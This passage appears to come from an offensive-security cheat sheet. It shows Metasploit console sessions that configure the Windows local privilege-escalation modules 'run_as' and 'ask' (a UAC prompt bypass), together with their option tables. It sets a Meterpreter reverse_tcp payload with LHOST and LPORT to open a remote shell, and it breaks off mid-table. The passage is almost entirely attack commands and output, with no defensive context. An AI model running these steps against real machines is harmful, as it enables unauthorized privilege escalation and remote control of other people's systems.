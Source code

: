 ```
  
  
Exploit target:  
  
  Id  Name  
  --  ----  
  0   Automatic  
  
  
  
View the full module info with the info, or info -d command.  

msf exploit(windows/local/run_as) > set use_custom_command <true | false>

msf exploit(windows/local/run_as) > set application_name [C:\\path\\to\\program.exe]

msf exploit(windows/local/run_as) > set command_line [arguments]

msf exploit(windows/local/run_as) > set user <username>

msf exploit(windows/local/run_as) > set pass <password>

msf exploit(windows/local/run_as) > set domain [domain_name]

msf exploit(windows/local/run_as) > set lhost <IP>

msf exploit(windows/local/run_as) > set lport <PORT>

msf exploit(windows/local/run_as) > set exitfunc <seh | thread | process | none>

msf exploit(windows/local/run_as) > run
```

- **MSF Windows Escalate UAC Execute RunAs Exploit Module**

```
msf > use exploit/windows/local/ask

msf exploit(windows/local/ask) > set payload windows/x64/meterpreter/reverse_tcp

msf exploit(windows/local/ask) > options 

Module options (exploit/windows/local/ask):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   FILENAME                    no        File name on disk
   PATH                        no        Location on disk, %TEMP% used if not set
   SESSION                     yes       The session to run this module on
   TECHNIQUE  EXE              yes       Technique to use (Accepted: PSH, EXE)


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
```